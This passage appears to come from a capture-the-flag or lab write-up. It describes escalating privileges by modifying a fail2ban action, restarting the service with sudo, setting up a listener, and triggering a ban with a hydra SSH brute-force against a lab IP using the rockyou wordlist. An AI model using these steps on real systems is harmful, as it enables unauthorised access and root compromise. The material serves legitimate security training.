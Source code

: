 Once we modify the file, restart the service with sudo:

```
sudo /bin/systemctl restart fail2ban
```

We now need to set up a listener and trigger `fail2ban` since it is an anti-bruteforce protection service, we need to bruteforce the login, let's use hydra to automate the process:

```
hydra -l random -P /usr/share/wordlists/rockyou.txt ssh://10.10.64.184 -t 40
```

![Pasted image 20250609164917.png](../../IMAGES/Pasted%20image%2020250609164917.png)
